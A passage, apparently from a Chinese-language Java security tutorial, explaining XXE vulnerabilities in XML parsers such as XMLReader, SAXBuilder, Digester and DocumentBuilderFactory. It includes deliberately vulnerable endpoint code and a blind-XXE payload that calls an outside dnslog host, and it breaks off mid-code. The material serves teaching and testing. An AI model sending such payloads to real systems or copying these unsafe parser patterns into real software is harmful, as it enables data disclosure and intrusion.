 一般漏洞代码

```java
String body = WebUtils.getRequestBody(request);
logger.info(body);
XMLReader xmlReader = XMLReaderFactory.createXMLReader();
xmlReader.parse(new InputSource(new StringReader(body))); 
```

这是个无回显的XXE，可以利用dnslog来验证。

```java
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ke40e2.dnslog.cn">
%remote;]>
<root/>
```

![img](img/1670486531693-57b43c61-4cbd-4000-ba2b-23bb74414581.png)

### SAXBuilder

SAXBuilder是一个JDOM解析器，它可以将路径中的XML文件解析为Document对象，SAXBuilder使用第三方SAX解析器来处理解析任务，使用SAXHandler的实例侦听SAX事件，当SAXBuilder使用默认的解析方法并且未对XML进行过滤时，会出现XXE漏洞。

### SAXParserFactory

SAXParserFactory使应用程序能够配置和获取基于SAX的解析器以解析XML文档。其受保护的构造方法，可以强制使用newInstance()。跟上面介绍的一样，在使用默认解析方法且未对XML进行过滤时，其也会出现XXE漏洞。

### Digester

Digester类用来将XML映射成Java类，以简化XML的处理。它是Apache Commons库中的一个jar包：common-digester包。一样的在默认配置下会出现XXE漏洞。其触发的XXE漏洞是没有回显的，我们一般需通过Blind XXE的方法来利用

### DocumentBuilderFactory

javax.xml.parsers包中的DocumentBuilderFactory用于创建DOM模式的解析器对象，DocumentBuilderFactory是一个抽象工厂类，它不能直接实例化，但该类提供了一个newInstance()方法，这个方法会根据本地平台默认安装的解析器，自动创建一个工厂的对象并返回。

主要看这个，这边先看有回显得情况

```java
@RequestMapping(value = "/DocumentBuilder/vuln01", method = RequestMethod.POST)
    public String DocumentBuilderVuln01(HttpServletRequest request) {
        try {
            String body = WebUtils.getRequestBody(request);
            logger.info(body);
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            DocumentBuilder db = dbf.newDocumentBuilder();
            StringReader sr = new StringReader(body);
            InputSource is = new InputSource(sr);
            Document document = db.parse(is);  // parse xml

            // 遍历xml节点name和value
```